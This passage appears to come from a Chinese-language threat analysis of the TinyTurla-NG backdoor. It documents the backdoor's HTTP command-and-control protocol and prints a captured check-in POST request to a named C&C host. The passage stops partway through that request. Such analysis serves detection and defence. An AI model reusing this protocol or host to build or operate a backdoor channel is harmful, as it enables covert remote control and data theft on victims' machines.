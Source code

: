 ## 后门通信模型分析

通过对 TinyTurla-NG 新后门通信模型进行分析，发现 TinyTurla-NG 新后门的 HTTP 请求主要分为如下情况：

-   POST 请求中，表单数据名称为"result"：主要用于发送上线认证信标及命令执行后的响应数据；
-   POST 请求中，表单数据名称为"gettask"：主要用于请求获取远控指令；
-   POST 请求中，表单数据名称为"file"：主要用于发送文件内容；
-   POST 响应请求中，实际远控指令前需要携带“rsp:”字符串；

相关截图如下：

[![](assets/1709105912-71f6d17018ef1e0d84020a0f02e7fad0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227083932-ac6c27ec-d508-1.png)

### 上线认证

通过分析，发现 TinyTurla-NG 新后门运行后，将首先发送上线认证数据，便于 C&C 对受控主机的远控行为数据进行管理。在上线认证通信中，后门将发送“Client Ready”字符串作为信标进行发送。

详细情况如下：

```plain
#**********TinyTurla-NG 新后门 -> C&C 站点**********
POST /wp-includes/blocks/rss.old.php HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary="-"
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1
Content-Length: 190
Host: jeepcarlease.com

---
Content-Disposition: form-data;name="id"
Content-Type: text/plain

307b5c9a
---
Content-Disposition: form-data;name="result"
Content-Type: text/plain
```